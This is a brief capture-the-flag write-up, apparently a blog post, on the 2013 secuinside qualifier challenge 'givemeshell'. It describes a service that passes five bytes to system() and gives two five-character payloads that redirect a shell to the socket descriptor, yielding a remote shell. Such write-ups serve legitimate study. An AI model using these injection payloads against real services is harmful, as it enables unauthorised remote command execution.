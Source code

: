 ```yaml
---
title: secuinside CTF Quals 2013 givemeshell writeup
author: kelwin
layout: post
permalink: /secuinside-ctf-quals-2013-givemeshell-writeup/
categories:
  - Uncategorized
---
```

Remote service only receives 5 bytes string and passes it to the system() function to execute a short shell command. Using redirection operator, we can get a remote interactive shell, just input:

    sh<&4  // redirect stdin to socket fd 4
    sh>&4  // redirect stdout to socket fd 4